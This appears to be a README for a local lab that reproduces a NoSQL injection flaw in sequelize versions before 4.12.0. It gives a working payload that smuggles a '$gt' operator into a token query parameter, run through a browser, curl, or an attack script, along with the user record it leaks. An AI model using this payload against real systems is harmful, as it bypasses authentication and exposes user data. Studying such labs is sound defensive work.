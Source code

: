 # NoSQL Injection @ sequelize
- module : sequelize
- version : <4.12.0
- severity: high
- type: nosql-injection

# Installation

`docker-compose up --build`

# Lunch Attack

- ### Browser [open the browser and enter the following url]
    http://localhost:8000?token[%24gt]=1
- the `response` will be {"id":1,"uid":1,"name":"Doe","createdAt":"...","updatedAt":"..."}

## OR

- ### Curl [open the terminal and run the following]
    curl http://localhost:8000?token[%24gt]=1
- the `response` will be {"id":1,"uid":1,"name":"Doe","createdAt":"...","updatedAt":"..."}

## OR

- ### Bash [open the terminal in the root dir of this app and run the following]
    bash attack.sh
- the `response` will be {"id":1,"uid":1,"name":"Doe","createdAt":"...","updatedAt":"..."}
